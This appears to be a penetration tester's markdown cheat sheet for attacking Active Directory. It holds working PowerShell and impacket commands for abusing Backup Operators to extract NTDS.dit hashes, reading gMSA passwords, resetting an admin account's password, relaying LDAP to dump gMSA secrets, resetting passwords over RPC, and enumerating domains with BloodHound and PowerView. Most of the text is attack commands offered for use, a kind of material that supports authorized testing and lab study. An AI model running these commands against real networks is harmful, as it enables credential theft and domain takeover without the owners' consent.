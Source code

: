 # Privileged groups
## AD Recycle Bin
A user in the group is allowed to read / recover deleted AD objects.
```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

## Remote Management Users
Members of this group can access PCs over **WinRM**
```powershell
Get-NetGroupMember -Identity "Remote Management Users" -Recurse
Get-NetLocalGroupMember -ComputerName <pc_name> -GroupName "Remote Management Users"
```

## AD Backup Operators
Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files      
```powershell
# Import libraries
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

# Enable SeBackupPrivilege
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
- [SeBackupPrivilege DLLs](https://github.com/k4sth4/SeBackupPrivilege)

### Get hashes from .dit file
```bash
# REMOTE

## Download .dit file (assuming evil-winrm is used)
download <database_file>

## Get system HIVE
reg.exe save hklm\system <destination>

# LOCAL (after file downloads)
secretsdump.py -system <system_hive> -ntds <database_file> LOCAL
```

## gMSA
*(ReadGMSAPassword abuse)*     
Group Managed Service Accounts (gMSA) are where Windows servers manage the password for an account by generating a long random password for it.

### Get password (locally)
This solution is taken from: [https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password](https://0xdf.gitlab.io/2022/04/30/htb-search.html#get-password)
```powershell
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity <user> -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp

# Save the password to variables
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword 
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword

# Reset password of admin if the compromised user has GenericAll permissions
$cred = New-Object System.Management.Automation.PSCredential <user>, $SecPass
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity <admin_user> -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'PASSWORD' -force)} -Credential $cred
```

### impacket-ntlmrelayx
```bash
ntlmrelayx.py --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs -debug -t ldaps://<ip>
```

### GMSAPasswordReader
```powershell
/GMSAPasswordReader --AccountName <name>
```
- [Documentation](https://github.com/rvazarkar/GMSAPasswordReader)



# Interesting account names
## AD support accounts
Often we have the credentials belonging to limited administrative accounts such as `IT`, `helpdesk` or `support`.      
Sometimes, these accounts have an ability to reset passwords.     
*Note that the wording of the account name might be different, but related to aforementioned names*
- [Reset password through RPC](https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#reset-ad-user-password)

```bash
setuserinfo2 <user> 23 <password>
```


# BloodHound
BloodHound is used to visualise AD environments and discover attack paths.        
- [Documentation](https://bloodhound.readthedocs.io/en/latest/index.html)

## Ingestors
### SharpHound
Local data collector for BloodHound
- [Documentation](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
- [Releases](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

### bloodhound.py
Python based data collection tool for BloodHound     
This will run against the domain, so can one run it from a remote machine.
```bash
bloodhound-python -u <username> -p <password> -d <domain> -c All -ns <nameserver_ip>                
```
- [Documentation](https://github.com/fox-it/BloodHound.py)



# Powerview
- [Github](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

### Enumeration
- [More help](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)
```powershell
# Basic domain info
Get-NetDomain

# Users
## Basic user enabled infos
Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount

# Groups
Get-NetGroup | select samaccountname, admincount, description

# Computers
Get-NetComputer | select samaccountname, operatingsystem
## Find computers with Constrained Delegation
Get-NetComputer -TrustedToAuth | select samaccountname #Find computers with Constrained Delegation
## Find any machine accounts in privileged groups
Get-DomainGroup -AdminCount | Get-DomainGroupMember -Recurse | ?{$_.MemberName -like '*$'}

# Shares
Find-DomainShare -CheckShareAccess

# Check if any user passwords are set
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl

# Asks DC for all computers, and asks every computer if it has admin access (very noisy). You need RCP and SMB ports opened.
Find-LocalAdminAccess

# Find interesting ACLs
Invoke-ACLScanner -ResolveGUIDs | select IdentityReferenceName, ObjectDN, ActiveDirectoryRights | fl
```